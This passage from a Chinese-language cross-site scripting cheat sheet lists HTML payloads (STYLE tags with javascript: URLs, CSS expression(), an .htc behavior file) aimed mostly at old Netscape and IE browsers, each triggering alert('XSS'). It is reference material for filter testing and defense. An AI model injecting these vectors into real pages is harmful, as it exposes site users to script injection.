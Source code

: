 ### 2-54 STYLE 标签（仅旧版本 Netscape 可用）

``` {.html}
<style type="text/javascript">
    alert('XSS');
</style>
```

### 2-55 使用背景图像的 STYLE 标签

``` {.html}
<style>
    .XSS {
        background-image: url("javascript:alert('XSS')");
    }</style
><a class="XSS"></a>
```

### 2-56 使用背景的 STYLE 标签

``` {.html}
<style type="text/css">
    body {
        background: url("javascript:alert('XSS')");
    }
</style>
```

``` {.html}
<style type="text/css">
    body {
        background: url("javascript:alert('XSS')");
    }
</style>
```

### 2-57 含有 STYLE 属性的任意 HTML 标签

IE6.0 和 IE 渲染引擎模式下的 Netscape 8.1+并不关心你建立的 HTML
标签是否存在，只要是由尖括号和字母开始的即可:

``` {.html}
<XSS STYLE="xss:expression(alert('XSS'))"></XSS>
```

### 2-58 本地 htc 文件

这和上面两个跨站脚本攻击向量有些不同，因为它使用了一个必须和 XSS
攻击向量在相同服务器上的.htc 文件。这个示例文件通过下载 JavaScript
并将其作为 style 属性的一部分运行来进行攻击：

``` {.html}
<XSS STYLE="behavior: url(xss.htc);"></XSS>
```

### 2-59 US-ASCII encoding
